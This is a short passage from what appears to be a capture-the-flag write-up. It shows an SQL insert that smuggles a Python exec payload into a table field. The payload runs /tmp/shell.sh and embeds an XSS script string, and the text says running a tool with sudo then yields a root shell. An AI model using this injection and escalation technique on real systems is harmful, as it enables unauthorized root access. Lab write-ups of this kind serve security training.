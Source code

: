 ```sql
insert into escalate values ("abc","abc","abc",'hello=exec("""\nimport os\nos.system("/tmp/shell.sh")\nprint("&ErrMsg=%3Cimg%20src=%22http://htb.com%22%20/%3E%3CSCRIPT%3Ealert%28%22xss%22%29%3C/SCRIPT%3E")""")');
```

Then, we can run the security using sudo and receive a root shell.

<figure><img src="../../../.gitbook/assets/image (12) (3) (1).png" alt=""><figcaption></figcaption></figure>
